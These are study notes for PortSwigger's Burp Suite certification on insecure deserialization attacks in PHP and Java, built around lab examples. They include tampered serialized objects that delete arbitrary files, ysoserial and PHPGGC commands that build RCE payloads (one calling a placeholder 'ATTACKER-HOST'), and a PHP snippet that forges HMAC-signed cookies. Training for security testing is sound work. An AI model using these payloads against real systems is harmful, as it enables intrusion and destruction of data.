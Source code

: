 ##### PortSwigger BurpSuite Certification Summary
# Deserialization Attacks
If an introduction is necessary, check here:
https://portswigger.net/web-security/deserialization

## Recognising Serialized Data
### PHP
PHP uses strings which are easily recognisable:
```
O:4:"User":2:{s:4:"name":s:6:"carlos"; s:10:"isLoggedIn":b:1;}
```
	O:4        = Object with 4-character name
	"User":2   = Object name with two attributes
	s:4        = String with 4 characters

The functions `serialize()` and `unserialize()` are used.

### Java
Java uses a binary form. One way to recognize it is the starting bytes of the object:
```
ac ed            for hex
rO0              for Base64
```
The function `readObject()` is used to deserialize data from an `InputStream`. Every object implementing `java.io.Serializable` can be used.

## Abusing weird PHP Syntax
The `==` operator tries to compare things even if they have a different data type. If possible, a number in a string will be converted to an integer if it's compared to one. If this is not possible, the string will be converted to a 0. Some examples:
```
5 == "5"         true
5 == "5 abcd"    true
0 == "abcd"      true
```
Let's consider this function:
```
$login = unserialize($_COOKIE)
if ($login['password'] == $password) {
// log in successfully
}
```
If `$login['password']` is altered by the attacker to become the integer zero, the if statement returns true as long as there are no numbers in the stored `$password`.

## Abusing Application Logic
Sometimes actions are performed based on values coming from serialized object. As an example, a link to the profile picture might be stored with the cookie and the picture deleted when the account is removed. Altering the file path would then remove any arbitrary file:
```
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"zuqphb2t5hlncofsiyh575caktne0q7p";s:11:"avatar_link";s:19:"users/wiener/avatar";}
```
becomes
```
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"zuqphb2t5hlncofsiyh575caktne0q7p";s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}
```
## Magic Methods
Those methods are invoked automatically when some corresponding event hapens. One example is Python's `__init__` method. Similarly, they exist manyfold in other languages, such as the `__construct()` method in PHP.
Some methods are called during the serialization, like PHP's `__wakeup()` function. The same goes for Java's `readObject()`. This method can also be customized:
```
private void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException
{
    // implementation
}
```
Example:
```
<?php

class CustomTemplate {
    private $template_file_path;
    private $lock_file_path;

    public function __construct($template_file_path) {
        $this->template_file_path = $template_file_path;
        $this->lock_file_path = $template_file_path . ".lock";
    }

    private function isTemplateLocked() {
        return file_exists($this->lock_file_path);
    }

    public function getTemplate() {
        return file_get_contents($this->template_file_path);
    }

    public function saveTemplate($template) {
        if (!isTemplateLocked()) {
            if (file_put_contents($this->lock_file_path, "") === false) {
                throw new Exception("Could not write to " . $this->lock_file_path);
            }
            if (file_put_contents($this->template_file_path, $template) === false) {
                throw new Exception("Could not write to " . $this->template_file_path);
            }
        }
    }

    function __destruct() {
        // Carlos thought this would be a good idea
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);
        }
    }
}

?>
```
This code uses the `__destruct()` method which removes the file at `lock_file_path`, a user controllable variable. The serialized object that removes a user's arbitrary file thus looks like this:
```
O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
```

## Gadget chains

A "gadget" is a snippet of code that exists in the application that can help an attacker to achieve a particular goal. An individual gadget may not directly do anything harmful with user input. However, the attacker's goal might simply be to invoke a method that will pass their input into another gadget. By chaining multiple gadgets together in this way, an attacker can potentially pass their input into a dangerous "sink gadget", where it can cause maximum damage. 

### Pre-built Gadget Chains
For known frameworks the gadget chain can be already known without acces to the source code. Such chains are accessible pre-built and can be tried out with relatively low effort.
#### ysoserial
This chain is used for Java and offers multiple functionalities, not all connected to RCE. In order to check if a deserialization attack is possible, a DNS request can be made with a functionality that works in any case (except no deserialization attack is possible of course). The chain is called `URLDNS`.
Another way of checking is to establish a tcp connection with `JRMPClient`. You can try generating payloads with two different IP addresses: a local one and a firewalled, external one. If the application responds immediately for a payload with a local address, but hangs for a payload with an external address, causing a delay in the response, this indicates that the gadget chain worked because the server tried to connect to the firewalled address. In this case, the subtle time difference in responses can help you to detect whether deserialization occurs on the server, even in blind cases.

A payload can be created in the following way:
```
java -jar ysoserial-xxx.jar URLDNS 'ATTACKER-HOST' | base64 | tr --d '\n'

java -jar ysoserial-xxx.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64 | tr --d '\n'
```
#### PHPGGC
This library provides pre-built chains for PHP:
```
./phpgcc -l
./phpgcc -i CakePHP/RCE1
./phpgcc Symfony/RCE3 'rm /home/carlos/morale.txt' | base64 | tr --d '\n'
```

In one lab, the token is checked against an HMAC which is created with a secret. After obtaining the secret, the correct cookie with the payload can be created the following way:
```
<?php
$object = "PAYLOAD";
$secret = "SECRET";
$cookie = urlencode('{"token":"' . $object . '","sig_hmac_sha1":"' . hash_hmac('sha1',$object,$secret) . '"}');
echo $cookie;
```
Where the cookie parameters are adapted to the one in use in the original one.
